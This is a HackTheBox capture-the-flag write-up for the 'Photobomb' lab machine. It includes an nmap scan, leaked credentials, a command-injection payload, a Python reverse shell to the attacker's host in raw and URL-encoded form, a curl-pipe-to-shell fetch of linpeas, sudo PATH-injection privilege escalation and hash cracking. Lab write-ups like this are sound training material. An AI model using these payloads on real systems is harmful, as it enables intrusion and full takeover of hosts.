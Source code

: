 ```yaml
---
render_with_liquid: false
title: HackTheBox Writeup  Photobomb
date: 2022-12-25 09:15 +1400
tags: [hackthebox, linux, nmap, burpsuite, information-disclosure, clear-text-credentials, command-injection, sudo, bash-script, path-injection]
---
```





# Recon


## Nmap

```bash
┌──(root㉿kali)-[~/photobomb]
└─# nmap -sV -sC -p- -Pn -T4 -oA Photobomb 10.10.11.182    
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 09:15 EST
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 52.10% done; ETC: 09:16 (0:00:38 remaining)
Nmap scan report for 10.10.11.182
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.16 seconds
```


# User Flag

The web index page will guide to `/printer` login page

![](/assets/obsidian/5f58e104b9ada5b4bffccd850297400e.png)

Take a look at burp history

We can see that a cookie authorization code was written in front end

![](/assets/obsidian/3b985e4a9821dfe877429c5fdd40028a.png)

- Get creds: `http://pH0t0:b0Mb!@photobomb.htb/printer`

There's only one dynamic function in this page

![](/assets/obsidian/a92e66517b22c92fb10ea8e74919dd3a.png)

Observe the request and response with burp interceptor

Test simple command injection on the parameters

![](/assets/obsidian/85003e565efa29165ffcd3ff9d98d973.png)

First listen for ICMP packets on tun0

```bash
┌──(root㉿kali)-[~]
└─# tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Found ping command injectable in `filetype
`
```java
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;ping+10.10.14.38+-c+1&dimensions=600x400
```

```bash
┌──(root㉿kali)-[~]
└─# tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
09:42:15.118399 IP photobomb.htb > 10.10.14.38: ICMP echo request, id 4, seq 1, length 64
09:42:15.118453 IP 10.10.14.38 > photobomb.htb: ICMP echo reply, id 4, seq 1, length 64
```

Send reverse shell

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.38",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Press `CTRL + U` in burp to quickly url encode

```java
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.38",1111))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("/bin/bash")'&dimensions=3000x2000
```

- Get user flag : `4956cbb999f5593b3e7e4884690ea02b`

```bash
┌──(root㉿kali)-[~]
└─# pwncat-cs
[09:51:23] Welcome to pwncat 🐈!                                                                                __main__.py:164
(local) pwncat$ listen 1111 -m linux
[09:51:31] new listener created for 0.0.0.0:1111                                                                 manager.py:957
[10:00:42] 10.10.11.182:36252: registered new host w/ db                                                         manager.py:957
           listener: 0.0.0.0:1111: linux session from 10.10.11.182:36252 established                             manager.py:957
(local) pwncat$                                                                                                                
(remote) wizard@photobomb:/home/wizard/photobomb$ cd ~
(remote) wizard@photobomb:/home/wizard$ ls
find  photobomb  shell.jpg  user.txt  wget-log
(remote) wizard@photobomb:/home/wizard$ cat user.txt 
4956cbb999f5593b3e7e4884690ea02b
(remote) wizard@photobomb:/home/wizard$ 
```


# Root Flag

Check sudo

```bash
(remote) wizard@photobomb:/home/wizard$ sudo -l -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:

Sudoers entry:
    RunAsUsers: root
    Options: setenv, !authenticate
    Commands:
        /opt/cleanup.sh
```

Take a look at the script

```bash
(remote) wizard@photobomb:/home/wizard/photobomb$ cat /opt/cleanup.sh 

#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb


# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi


# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

No privilage to edit the script

```bash
(remote) wizard@photobomb:/home/wizard/photobomb$ ls -la /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15 12:11 /opt/cleanup.sh
```

Noticed that `truncate` and `/bin/cat` have been set to use from direct directory,
But `find` does not, which means we can set it with `setenv` option in `sudo`.

```bash
echo "/bin/bash -i" >> /tmp/find
sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# cat ~root/root.txt 
6e260e1f2effa3e0d992bde35f6040ef
```

- Get ROOT flag: `6e260e1f2effa3e0d992bde35f6040ef`

![](/assets/obsidian/74df539dd5d1c6a5679d8e5c87c5cabd.png)


## Additional


### Get root by another way

https://youtu.be/-4asq6Tldf0?t=960


### Etc

Interesting linpeas result:

```bash
curl 10.10.14.38/linpeas.sh | sh
```

![](/assets/obsidian/43c55eda4ab106c271644929766f0eb9.png)

```bash
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-rw-r-- 1 wizard wizard 44 Sep 14 09:29 /home/wizard/photobomb/.htpasswd                                                                                                   
pH0t0:$apr1$dnyF00ZD$9PifZwUxL/J0BCS/wTShU1
```

Crack the hash for fun

```bash
john --wordlist=~/rockyou.txt htpasswd.txt
```
